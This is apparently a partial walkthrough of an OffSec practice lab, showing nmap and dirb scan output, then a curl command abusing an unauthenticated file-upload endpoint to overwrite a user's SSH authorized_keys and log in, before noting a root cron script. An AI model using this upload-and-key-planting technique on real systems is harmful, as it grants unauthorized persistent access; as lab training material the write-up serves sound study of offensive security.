## Nmap scan

```
nmap -sV -p- 192.168.55.249 --open --vv
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-24 14:17 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 14:17
Scanning 192.168.55.249 [2 ports]
Completed Ping Scan at 14:17, 2.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:17
Completed Parallel DNS resolution of 1 host. at 14:17, 0.00s elapsed
Initiating Connect Scan at 14:17
Scanning 192.168.55.249 [65535 ports]
Discovered open port 21/tcp on 192.168.55.249
Stats: 0:00:28 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 16.20% done; ETC: 14:20 (0:02:14 remaining)
Discovered open port 25022/tcp on 192.168.55.249
Discovered open port 33414/tcp on 192.168.55.249
Connect Scan Timing: About 42.79% done; ETC: 14:19 (0:01:15 remaining)
Stats: 0:01:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 55.66% done; ETC: 14:19 (0:00:54 remaining)
Stats: 0:01:21 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 67.47% done; ETC: 14:19 (0:00:38 remaining)
Discovered open port 40080/tcp on 192.168.55.249
Completed Connect Scan at 14:19, 106.47s elapsed (65535 total ports)
Initiating Service scan at 14:19

Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
25022/tcp open  ssh     syn-ack OpenSSH 8.6 (protocol 2.0)
33414/tcp open  unknown syn-ack
40080/tcp open  http    syn-ack Apache httpd 2.4.53 ((Fedora))
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

```

## Dirb scan

```
dirb http://192.168.55.249:40080/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed May 24 14:21:56 2023
URL_BASE: http://192.168.55.249:40080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.55.249:40080/ ----
                                                                             + http://192.168.55.249:40080/cgi-bin/ (CODE:403|SIZE:199)                  
                                                                             ==> DIRECTORY: http://192.168.55.249:40080/images/
+ http://192.168.55.249:40080/index.html (CODE:200|SIZE:1092)               
+ http://192.168.55.249:40080/LICENSE (CODE:200|SIZE:6555)                  
                                                                             ==> DIRECTORY: http://192.168.55.249:40080/styles/
                                                                            
---- Entering directory: http://192.168.55.249:40080/images/ ----
                                                                             (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                            
---- Entering directory: http://192.168.55.249:40080/styles/ ----
                                                                             (!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Wed May 24 14:21:59 2023
DOWNLOADED: 4612 - FOUND: 3

```

```
dirb http://192.168.55.249:33414/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed May 24 13:52:33 2023
URL_BASE: http://192.168.55.249:33414/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.55.249:33414/ ----
                                                                             + http://192.168.55.249:33414/help (CODE:200|SIZE:137)                      
+ http://192.168.55.249:33414/info (CODE:200|SIZE:98)                       
                                                                               
-----------------
END_TIME: Wed May 24 13:52:41 2023
DOWNLOADED: 4612 - FOUND: 2

```

## directories availabe
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/0ca6ec95-7e76-4eda-9fe5-4507267a85e5)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/fb6b7da0-7b7c-4b3b-9d32-baa170f5003f)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/5e27e0c9-6e25-4efd-a950-c91193e43f58)

## SSH using authorized_keys
```
curl -i -X POST -H "Content-Type: multipart/form-data" -F file="@id_rsa.pub.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http:/192.168.212.249:33414/file-upload

```
```
ssh -i id_rsa alfredo@<ip> -p 25022
```
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/cce4b937-8584-4993-a22d-2d1b7837b4f3)

- trying to find , how the files got created , so found a cronjobs file (crontab)
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/e426c93f-b4fa-4352-9746-7fc0d4293e44)

`/usr/local/bin/backup-flask.sh`
 
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/c189cb72-229e-4542-8a58-5550da22bc69)

